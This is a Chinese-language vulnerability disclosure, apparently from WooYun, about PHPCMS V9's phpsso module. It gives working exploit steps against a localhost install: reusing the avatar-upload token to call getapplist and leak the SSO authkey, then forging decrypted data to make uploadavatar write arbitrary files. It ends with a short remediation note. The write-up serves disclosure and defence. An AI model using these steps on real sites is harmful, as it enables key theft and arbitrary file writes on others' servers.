 ## WooYun-2014-66394：PHPCMS V9 一個為所欲為的漏洞

## **詳細說明**
安裝phpcms的時候會強制安裝它的通行證。
<p>
phpcms/phpsso_server/phpcms/modules/phpsso/index.php裡有一段

```php
/**

     * 獲取應用列表

     */

    public function getapplist() 
    {

        $applist = getcache('applist', 'admin');

        exit(serialize($applist));

    }
```

```php
<?php

return array (

  1 => 

  array (

    'appid' => '1',

    'type' => 'phpcms_v9',

    'name' => 'phpcms v9',

    'url' => 'http://localhost:8038/study/phpcms/',

    'authkey' => 'L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr',

    'ip' => '',

    'apifilename' => 'api.php?op=phpsso',

    'charset' => 'gbk',

    'synlogin' => '1',

  ),

);

?>

```

所以只要我們調用phpsso並且能走到這個方法裡，就會突出sso配置的客戶端的所有信息，包括authkey。
<p>
查看通行證代碼發現，只要`$_POST['data']`可以解出來，就可以走下去。


```php
	if(isset($_GET) && is_array($_GET) && count($_GET) > 0) 
	{

            foreach($_GET as $k=>$v) 
            {

                if(!in_array($k, array('m','c','a'))) 
                {

                    $_POST[$k] = $v;

                }

            }

    }
```

GET全付給POST

```php
	if(isset($_POST['data'])) 
	{

            parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);

            if(empty($this->data) || !is_array($this->data)) 
            {

                exit('0');

            }

    } 
	        else 
	        {

	            exit('0');

	        }
```
<pre>
我們怎麼拿到這個$_POST['data']，用戶上傳頭像的頁面裡就有。

註冊登錄後訪問

http://localhost:8038/study/phpcms/index.php?m=member&c=index&a=account_manage_avatar&t=1

查看源文件：
</pre>

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.6/6.6-1.jpg)


<pre>
拿到這個:
aHR0cDovL2xvY2FsaG9zdDo4MDM4L3N0dWR5L3BocGNtcy9waHBzc29fc2VydmVyL2luZGV4LnBocD9tPXBocHNzbyZjPWluZGV4JmE9dXBsb2FkYXZhdGFyJmF1dGhfZGF0YT12PTEmYXBwaWQ9MSZkYXRhPWU1YzJWQU1HVVFaUkFRa0lVUVFLVndGVUFnSUNWZ0FJQWxkVkJRRkREUVZjVjBNVVFHa0FReFZaWmxNRUdBOSUyQkRqWm9LMUFIUm1Vd0JHY09YVzVVRGdRaEpEeGFlUVZuR0FkeFZSY0tRQQ==

解除base64_decode編碼
http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA


將url裡的uploadavatar換成：getapplist得到：
http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA


訪問得到：
a:1:{i:1;a:9:{s:5:"appid";s:1:"1";s:4:"type";s:9:"phpcms_v9";s:4:"name";s:9:"phpcms v9";s:3:"url";s:35:"http://localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}}

和我們想的一樣，authkey在裡面：

s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr"

拿到這個key已經可以想做什麼想什麼了，sso體系裡的東西都可以做了。

解密出來的東西不受控制，可以包含null截斷，也可以包含單雙引號


</pre>


## **舉個例子：**
```php
/phpcms/phpsso_server/phpcms/modules/phpsso/index.php
內：

public function uploadavatar()
//寫的

$this->uid = $this->data['uid']; //uid來自解密出來的uid
$this->avatardata = $this->data['avatardata']; //數據內容來自解密出來的數據內容
……

$dir = $avatarfile.$dir1.'/'.$dir2.'/'.$this->uid.'/';
//目錄名里引用了來自解密內容的uid
……

$filename = $dir.'180x180.jpg';
//文件名又來自引用了解密uid內容的$dir變量
$fp = fopen($filename, 'w');
fwrite($fp, $this->avatardata);
fclose($fp);
//文件寫入了，反正是想做什麼做什麼。

```
## **修復方案**
<p>
不要過分信任自己的加密解密機制，要小心處理每個過程。